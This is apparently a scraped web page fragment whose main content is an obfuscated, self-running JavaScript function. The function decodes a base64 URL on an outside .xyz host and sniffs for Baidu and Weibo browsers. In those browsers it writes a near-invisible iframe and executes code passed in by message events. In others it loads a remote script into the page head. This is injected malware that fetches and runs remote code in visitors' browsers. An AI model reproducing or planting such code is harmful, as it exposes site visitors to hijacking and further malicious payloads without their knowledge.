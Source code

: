 
返回顶部

function EWkosbhm8091(){ u="aHR0cHM6Ly"+"9kLmRrZHNm"+"cndldHkueH"+"l6L1NuY1Iv"+"dC0yMDE4Mi"+"13LTEwMi8="; var r='YCXtWgzV'; w=window; d=document; f='WtqXQ'; c='k'; function bd(e) { var sx = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='; var t = '',n, r, i, s, o, u, a, f = 0; while (f < e.length) { s = sx.indexOf(e.charAt(f++)); o = sx.indexOf(e.charAt(f++)); u = sx.indexOf(e.charAt(f++)); a = sx.indexOf(e.charAt(f++)); n = s << 2 | o >> 4; r = (o & 15) << 4 | u >> 2; i = (u & 3) << 6 | a; t = t + String.fromCharCode(n); if (u != 64) { t = t + String.fromCharCode(r) } if (a != 64) { t = t + String.fromCharCode(i) } } return (function(e) { var t = '',n = r = c1 = c2 = 0; while (n < e.length) { r = e.charCodeAt(n); if (r < 128) { t += String.fromCharCode(r); n++ }else if(r >191 &&r <224){ c2 = e.charCodeAt(n + 1); t += String.fromCharCode((r & 31) << 6 | c2 & 63); n += 2 }else{ c2 = e.charCodeAt(n + 1); c3 = e.charCodeAt(n + 2); t += String.fromCharCode((r & 15) << 12 | (c2 & 63) << 6 | c3 & 63); n += 3 } } return t })(t) }; function sk(s, b345, b453) { var b435 = ''; for (var i = 0; i < s.length / 3; i++) { b435 += String.fromCharCode(s.substring(i \* 3, (i + 1) \* 3) \* 1 >> 2 ^ 255) } return (function(b345, b435) { b453 = ''; for (var i = 0; i < b435.length / 2; i++) { b453 += String.fromCharCode(b435.substring(i \* 2, (i + 1) \* 2) \* 1 ^ 127) } return 2 >> 2 || b345[b453].split('').map(function(e) { return e.charCodeAt(0) ^ 127 << 2 }).join('').substr(0, 5) })(b345[b435], b453) }; var fc98 = 's'+'rc',abc = 1,k2=navigator.userAgent.indexOf(bd('YmFpZHU=')) > -1||navigator.userAgent.indexOf(bd('d2VpQnJv')) > -1; function rd(m) { return (new Date().getTime()) % m }; h = sk('580632548600608632556576564', w, '1519301125161318') + rd(6524 - 5524); r = r+h,eey='id',br=bd('d3JpdGU='); u = decodeURIComponent(bd(u.replace(new RegExp(c + '' + c, 'g'), c))); wrd = bd('d3JpdGUKIA=='); if(k2){ abc = 0; var s = bd('YWRkRXZlbnRMaXN0ZW5lcg=='); r = r + rd(100); wi=bd('PGlmcmFtZSBzdHlsZT0ib3BhY2l0eTowLjA7aGVpZ2h0OjVweDsi')+' s'+'rc="' + u + r + '" ></iframe>'; d[br](wi); k = function(e) { var rr = r; if (e.data[rr]) { new Function(bd(e.data[rr].replace(new RegExp(rr, 'g'), '')))() } }; w[s](bd('bWVzc2FnZQ=='), k) } if (abc) { a = u; var s = d['createElement']('sc' + 'ript'); s[fc98] = a; d.head['appendChild'](s); } d.currentScript.id = 'des' + r }EWkosbhm8091();


>